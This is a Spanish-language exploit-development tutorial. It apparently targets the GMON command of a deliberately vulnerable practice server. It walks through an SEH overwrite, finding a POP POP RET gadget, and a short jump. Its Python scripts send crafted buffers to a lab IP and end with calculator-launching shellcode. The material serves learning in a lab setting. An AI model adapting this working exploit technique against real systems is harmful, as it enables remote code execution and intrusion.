






Vamos a explotar la vulnerabilidad de GMON
Primero vamos a revisar como ejecutar la función.
Para empezar cuando intentas explotar una vulnerabilidad se necesita restrear un buffer donde pueda entrar una shellcode, pero, ¿qué pasaría si los buffers encontrados son muy pequeños como para entrar una shellcode completa?, para eso, encontraron una forma, que sería meter en memoria una shellcode, después ejecutar un código en ese pequeño buffer que busca en memoria esa shellcode para después ejecutarlo.
Usaremos Immunity y busquemos en "Search for -> All referenced text strings" y damos click sobre GMON.
Podemos ver en la imagen la API strncmp, "int strncmp(const char *str1, const char *str2, size_t n)", en otras palabras, está comparando "strcmp("GMON ", "GMON ", 5)", el espacio al final también cuenta
Ok, conectamos con el servidor, ahora veamos si podemos provocarle un error
Al parecer no sale alguno a menos que coloquemos el signo "/" antes.
Pero aparece un detalle importante, no se sobreescribe EIP pero si logramos sobreescribir nSEH y SEH.
Ok, logramos un buen avance, ahora tenemos que investigar como explotar la vulnerabilidad.
Recordemos la importancia de SEH y nSEH
Son conceptos para intentar ejecutar bloques de código y encapsulando errores o excepciones en el programa.
try {
}
except () {
}
En except hay una estructura llamada Structured Exception Handlers, donde va buscando bloque por bloque el tipo de excepción que se va a ejecutar o hasta encontrar un error 0xFFFFFF y cuando lo encuentra salta a nSEH que es un puntero a EIP para ir al lugar donde se encuentra la información a mostrar.
Ok, en otras palabras la pila mete en ESP 4 bytes que sería SEH, después suma en ESP otros 4 bytes, que sería nSEH, serian ESP+8, y se puede ver en la imagen como son contiguos, y es por esa razón que es necesario una técnica conocida como POP+POP+RET
ESP+8 = POP -> ESP+4, POP -> ESP, RET -> EIP -> (brinca al inicio de ESP de alguna dirección)>
en RET tenemos que darle la instrucción hacia donde debería saltar, y como ya supones, tenemos que decirle que salte a una shell.
import socket
basura = b"A" * 3546
basura += b"BBBB"
basura += b"CCCC"
basura += b"D" * (4000 - len(basura))
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
soc.send((b'GMON /' + basura))
soc.close()
Listo, ya tenemos SEH y nSEH como queremos, ahora será necesario retroceder para meter un jump a EIP que vaya a nuestra shell, pero vayamos poco a poco.
Primero busquemos un POP+POP+RET valido y sin seguridad, usemos !mona modules y !mona seh, para encontrar uno en algún modulo sin protección.
Utilicemos el primero, no tiene protección en ASLR, Rebase y SafeSEH
import socket
basura = b"A" * 3546
basura += b"CCCC"
basura += b"\xb4\x10\x50\x62"
basura += b"D" * (4000 - len(basura))
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
soc.send((b'GMON /' + basura))
soc.close()
Vamos a seguir la dirección y coloquemos un break para ver si llegamos ahí.
Perfecto, llegamos al lugar donde colocamos el break y además podemos ver en la segunda imagen como RETN apunta a 00EFFFCC que es el mismo de Pointer to next SEH record.
Bien, si le damos en siguiente podemos ver que EIP tiene la dirección de nSEH y va a saltar a 0x43434343 que serían los "CCCC" que colocamos, ahí debemos hacer un truco, colocar un jump corto (short jmp) para ir al inicio de ESP de la shell, que en este caso fue lo que rellenamos con 0x44444444 "D" * (4000 - len(basura)) y ahí debe estar la shell
Ok, hagamos un short jmp en ASM que sería EB, después digamosle cuantos bytes tiene que saltar, en este caso solo serían necesarios 12 "0xc" y alineamos con unos nops
Sería 0xEB0C9090
import socket
basura = b"A" * 3546
basura += b"\xeb\x0c\x90\x90"
basura += b"\xb4\x10\x50\x62"
basura += b"D" * (4000 - len(basura))
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
soc.send((b'GMON /' + basura))
soc.close()
Listo, logramos el objetivo, ahora, ¿porqué dejamos unos cuantos y no colocamos el jmp en el incio de los 44's?, sencillo, evitamos problemas a la hora de ejecutar una shell, el conocido NOP_slide.
Ahora, el espacio es muy pequeño para una shell grande, será para después con un egghunter.
Coloquemos los opcodes de la ejecución de una calculadora y veamos que pasa
import socket
basura = b"A" * 3546
basura += b"\xeb\x0c\x90\x90"
basura += b"\xb4\x10\x50\x62"
nops = b"\x90\x90\x90\x90\x90\x90"
padd = b"D" * (4000 - len(basura))
shellcode = b"\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51"
shellcode += b"\x50\xbb\x10\x55\x6f\x76\xff\xd3\x31\xc0\x50\xb8\x40\x76\x6b\x76\xff\xd0"
enviar_datos = basura + nops + shellcode + padd
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
soc.send((b'GMON /' + enviar_datos))
soc.close()
El código completo se inyecto correctamente.
Listo, pero vamos a explicar el código.
Estos son los nops que se mencionan para nop-slide
nops = b"\x90\x90\x90\x90\x90\x90"
Esto se modifica, ya que lo agregaremos al final de la shell
padd = b"D" * (4000 - len(basura))
Esto es la shell
shellcode = b"\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51"
shellcode += b"\x50\xbb\x10\x55\x6f\x76\xff\xd3\x31\xc0\x50\xb8\x40\x76\x6b\x76\xff\xd0"
Entonces en enviar_datos usamos, la basura, los nops, la shellcode y la alineación que mencionamos arriba
enviar_datos = basura + nops + shellcode + padd
Listo, pasamos la prueba GMON.